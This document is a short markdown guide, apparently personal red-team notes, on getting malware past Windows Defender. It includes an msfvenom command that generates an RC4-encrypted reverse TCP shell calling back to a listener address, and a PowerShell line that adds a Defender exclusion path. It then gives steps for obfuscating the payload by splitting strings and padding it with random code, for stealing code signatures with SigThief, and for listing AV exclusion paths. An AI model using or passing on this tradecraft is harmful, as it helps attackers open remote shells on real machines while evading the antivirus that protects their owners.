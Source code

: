 # Steps


Have a Windows10 VM with Defender activated with
an exclusion on an SMB share where we can easily pass files
without detection enabled.
Disable "Tamper Protection" from GUI.

Set-MpPreference -ExclusionPath "C:\path\to\SMB\Share\dir"


1. generate the payload you want with msfvenom,
   rc4 encrypted work nicely for the purpose.

    msfvenom -p windows/x64/shell/reverse_tcp_rc4 LHOST=172.28.128.1 \
    LPORT=8080 \
    EXITFUNC=thread \
    RC4PASSWORD=PutAPasswordHere \
    -f psh-net > shell45.ps1

2. Test this with AV completely disabled just to check if it works.
3. Now this payload would be detected easily. So we should modify it.
    Follow the following steps:
    1. modify all the strings "kernel32.dll" or "system.dll" 
       to be split such as "k" + "er" + "n"...
    2. Add random functions from code found online
    3. Split the payload in many small strings
       the concatenate the strings
    4. Add more random code

3. Try the malware without AV activated, to check if the payload is working
   after the modifications. If it works.
   Let's try to check if it gets detected.
   If this happens, we should follow the split methodology. And see on which files
   the AV flags.


Note that it happened that I had to remove the "system32.dll" loading as a library.


Now how to modify the payload may change based on the format of the payload,
in general we prefer to have the source and not an executable, since
modifying executables becomes much more complicated.

To understand how to modify a C payload generated by msfvenom when using "-f c > mypayload.c"
look here:
https://securityboulevard.com/2020/02/evading-antivirus-with-better-meterpreter-payloads/


# TLDR

The standard techniques are:
- adjusting the binary (like by compiling it from scratch instead of using a precompiled version);
- adjusting the behavior (sleep a bit, make some calculations then do bad things);
- do custom stuff;

# NOTES
If we are dealing with executables, it is a good idea to sign them. We can do this:
by using:
https://github.com/secretsquirrel/SigThief


## Appendix

A good metasploit module to check if there are AV exclusion paths is:
msf post/windows/gather/enum_av_excluded

